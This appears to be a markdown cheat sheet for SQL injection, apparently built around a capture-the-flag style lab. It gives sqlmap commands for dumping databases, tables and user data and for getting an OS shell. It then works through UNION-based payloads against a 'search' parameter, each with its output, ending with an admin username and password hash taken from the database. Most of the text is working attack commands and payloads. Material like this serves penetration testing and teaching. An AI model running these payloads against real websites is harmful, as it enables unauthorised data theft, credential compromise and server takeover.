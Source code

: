 * [`sqlmap`](#sqlmap)
  * [GET request](#get-request)
  * [POST request](#post-request)
  * [databases](#databases)
  * [tables](#tables)
  * [data](#data)
  * [columns](#columns)
  * [os shell](#os-shell)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [check vulnerability](#check-vulnerability)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate databases](#enumerate-databases)
  * [enumerate tables](#enumerate-tables)
  * [enumerate columns](#enumerate-columns)
  * [show data](#show-data)

# `sqlmap`
If we know the DBMS, we can use option `--dbms=mysql`
## GET request
```
sqlmap -u "http://example.com/?a=1&b=2&c=3" -p "a,b"
```
## POST request
```
sqlmap -u "http://example.com/" --data "a=1&b=2&c=3" -p "a,b" --method POST
```
Alternatively, copy the POST request in the intercept of burpsuite in a file and use it as follows
```
$ cat web.txt
POST /results.php HTTP/1.1
Host: 10.10.10.109
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.109/search.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

search=killer
```
```
sqlmap -r web.txt -p "search"
```
## databases
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs 
```
## tables
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --tables -D testdb
```
## data
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dump -D testdb -T users
```
## columns
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D testdb -T users --columns
```
### os shell
```
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --os-shell
```
# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## check vulnerability
```
search=killer' or 1='1
```
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate databases
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate tables
```
search=killer' UNION SELECT GROUP_CONCAT(TABLE_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="Staff"-- -
```
```
<h3>Search results </h3> 
ID: StaffDetails,Users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate columns
```
search=killer' UNION SELECT GROUP_CONCAT(COLUMN_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="Staff" AND TABLE_NAME="Users"-- -
```
```
<h3>Search results </h3>
ID: UserID,Username,Password<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## show data
```
search=killer' UNION SELECT GROUP_CONCAT(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- -
```
```
<h3>Search results </h3>
ID: admin:856f5de590ef37314e7c3bdf6f8a66dc<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
